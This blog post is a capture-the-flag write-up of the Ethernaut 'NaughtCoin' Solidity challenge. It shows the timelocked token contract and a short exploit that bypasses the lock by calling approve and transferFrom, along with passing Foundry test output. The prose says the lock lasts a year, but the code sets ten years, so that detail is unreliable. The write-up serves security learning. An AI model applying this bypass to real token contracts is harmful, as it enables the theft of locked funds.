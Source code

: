 ###########################
Ethernaut 15: NaughtCoin
###########################
:date: 2023-09-10
:slug: ethernaut-15-naughtcoin
:summary: read what you extend folks
:tags: programming
:author: capu
:featured_image:


Objective
=========
Get the player's balance to zero.

Code
====
.. code-block:: solidity
    :linenos: inline
    :hl_lines: 5 21 29

    contract NaughtCoin is ERC20 {
        // string public constant name = 'NaughtCoin';
        // string public constant symbol = '0x0';
        // uint public constant decimals = 18;
        uint256 public timeLock = block.timestamp + 10 * 365 days;
        uint256 public INITIAL_SUPPLY;
        address public player;

        constructor(address _player) ERC20("NaughtCoin", "0x0") {
            player = _player;
            INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
            // _totalSupply = INITIAL_SUPPLY;
            // _balances[player] = INITIAL_SUPPLY;
            _mint(player, INITIAL_SUPPLY);
            emit Transfer(address(0), player, INITIAL_SUPPLY);
        }

        function transfer(
            address _to,
            uint256 _value
        ) public override lockTokens returns (bool) {
            return super.transfer(_to, _value);
        }

        // Prevent the initial owner from transferring
        // tokens until the timelock has passed
        modifier lockTokens() {
            if (msg.sender == player) {
                require(block.timestamp > timeLock);
                _;
            } else {
                _;
            }
        }
    }

This contract has a timelock, preventing the user from transferring tokens out
until a year from deployment.

Solution
========

The ERC20 standard has two ways to move tokens:

- ``transferFrom``
- ``transfer``

and only the latter is overriden from the default implementation to prevent
funds moving before the timelock elapses. Therefore, using the ``transferFrom``
method is enough to get around it.

.. code-block:: solidity 

    function solution(address payable target_) internal override{
        uint256 amount = 1000000 * (10 ** 18);
        NaughtCoin target = NaughtCoin(target_);
        target.approve(attacker, amount);
        target.transferFrom(attacker, address(this), amount);
    }

.. code-block:: plain

    [I] () capu ~/s/ethernaut-solutions (master)> forge test --mc NaughtCoin
    [⠆] Compiling...
    No files changed, compilation skipped

    Running 1 test for test/15-NaughtCoin.t.sol:NaughtCoinSolution
    [PASS] testSolution() (gas: 4009231)
    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.44ms
    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)


😎
